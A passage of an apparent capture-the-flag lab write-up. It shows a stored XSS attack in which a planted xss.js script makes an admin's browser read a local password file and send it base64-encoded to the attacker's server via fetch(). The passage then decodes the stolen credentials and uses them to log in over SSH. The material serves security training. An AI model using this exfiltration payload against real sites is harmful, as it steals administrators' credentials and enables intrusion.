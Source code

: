 Upon leaving a comment with this account, I instantly get a request for `xss.js` from my browser, and after some seconds, there is also a request from the admin user.

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.11.63.57 - - [06/Jan/2024 03:51:01] code 404, message File not found
10.11.63.57 - - [06/Jan/2024 03:51:01] "GET /xss.js HTTP/1.1" 404 -
10.10.230.27 - - [06/Jan/2024 03:51:17] code 404, message File not found
10.10.230.27 - - [06/Jan/2024 03:51:17] "GET /xss.js HTTP/1.1" 404 -
```

Creating a `/xss.js` file with a payload that will make a request to `http://127.0.0.1/dir/pass.txt` and send the contents of it back to my server.
```javascript
var target_url = "http://127.0.0.1/dir/pass.txt";
var my_server = "http://10.11.63.57/data";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(my_server + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', target_url, true);
xhr.send(null);
```
{: file="xss.js" }

After creating the file, the admin user now gets our JS payload and runs it, retrieving the contents of `http://127.0.0.1/dir/pass.txt` for us.

```console
10.10.230.27 - - [06/Jan/2024 04:03:16] "GET /xss.js HTTP/1.1" 200 -
10.10.230.27 - - [06/Jan/2024 04:03:17] code 404, message File not found
10.10.230.27 - - [06/Jan/2024 04:03:17] "GET /data?amF...wo= HTTP/1.1" 404 -
```
Decoding the data we got from base64, it is credentials for the `jack` user.

```console
$ echo amF...wo= | base64 -d
jack:[REDACTED]
```

### Shell as jack

Using the credentials found before, getting a shell as `jack` using `SSH`.

```console
ssh jack@10.10.230.27
```

Reading the user flag.

```console
jack@ubuntu:~$ id
uid=1001(jack) gid=1001(jack) groups=1001(jack)
jack@ubuntu:~$ wc -c user.txt 
33 user.txt
```
